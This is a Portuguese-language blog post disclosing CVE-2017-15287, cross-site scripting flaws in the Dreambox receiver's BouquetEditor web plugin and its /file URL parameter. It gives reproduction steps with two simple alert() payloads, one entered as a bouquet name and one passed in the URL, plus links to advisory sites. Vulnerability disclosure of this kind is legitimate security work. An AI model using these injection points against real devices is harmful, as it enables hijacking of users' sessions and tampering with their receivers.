 ```yaml
---
title: "[CVE-2017-15287] Vulnerability XSS - Dreambox - [PT-BR]"
layout: post
date: '2017-10-13 04:45:59'
description: 'Vulnerabilty: Cross-site scripting (XSS) in plugin BouquetEditor'
image: '/assets/images/posts/xxs/1.png'
tags:
- poc
- cve
author: Thiago "THX"
---
```


Prova de Conceito (Proof of Concept - PoC), que virou o [CVE-2017-15287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"}.

### Sobre o Software:

O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.

### As vulnerabilidades:

#### Vulnerabilidade 1

O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado "BouquetEditor":

```
URL: http://IP:PORT/bouqueteditor/
```

Passos:

1.Na aba Bouquets, ira adicionar uma nova bouquet

![Passo 1]({{ site.url }}/assets/images/posts/xxs/1.png)

2.Assim, irar colocar o script:

```
(<script>alert('XSS')</script>)
```

![Passo 2]({{ site.url }}/assets/images/posts/xxs/2.png)

3.Vulnerability XSS

![Passo 3]({{ site.url }}/assets/images/posts/xxs/3.png)

#### Vulnerabilidade 2

A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)

```
Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
```

![XSS via endereço]({{ site.url }}/assets/images/posts/xxs/4.png)

### Compartilhamentos:

Sites que já compatilharam o CVE:

[0day](https://fr.0day.today/exploit/description/28784){:target="_blank" rel="noopenner noreferrer"}

[CERTSI](https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[CXSecurity](https://cxsecurity.com/issue/WLB-2017100103){:target="_blank" rel="noopenner noreferrer"}

[Exploit Database](https://www.exploit-db.com/exploits/42986/){:target="_blank" rel="noopenner noreferrer"}

[Exploit Kitploit](http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html){:target="_blank" rel="noopenner noreferrer"}

[HackerTor](https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/){:target="_blank" rel="noopenner noreferrer"}

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[PacketStorm](https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt){:target="_blank" rel="noopenner noreferrer"}

[Security Database](https://www.security-database.com/detail.php?alert=CVE-2017-15287&utm_source=feedburner&utm_medium=feed&utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)){:target="_blank" rel="noopenner noreferrer"}

[SecNews24](https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/){:target="_blank" rel="noopenner noreferrer"}

[TSecurity](https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/){:target="_blank" rel="noopenner noreferrer"}

[VulDB](https://vuldb.com/fr/?id.107825){:target="_blank" rel="noopenner noreferrer"}
